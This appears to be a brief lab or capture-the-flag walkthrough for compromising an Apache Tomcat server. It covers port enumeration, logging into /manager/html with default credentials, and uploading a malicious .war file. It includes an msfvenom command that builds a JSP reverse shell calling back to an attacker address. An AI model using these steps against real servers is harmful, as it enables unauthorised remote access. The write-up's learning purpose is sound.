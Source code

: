 1. Enumerate open ports in the machine. 8080

2. As we're in front of an Apache Tomcat we can look for vulnerabilities that appear because of the old apache version

3. Apache Tomcat has a certain directory called __{IP}__/manager/html that enables you to have full access to the site. Must-try in this type of websites

4. The username and password were set as default so the only thing to do is just enter into the control panel

5. Upload a malicious .war to the upload section in order to get remote command execution in the application
	1. This step can be done by running the following command just to get the possible java payloads: msfvenom -l | grep java 
	2. And after seeing the previous command output go on and try this "msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 -f war -o shell.war"
	- -p : To specify the payload to use
	- -f : To specify the file extension
	- -o : To specify the file name

6. Type the file from the Admin user in the machine
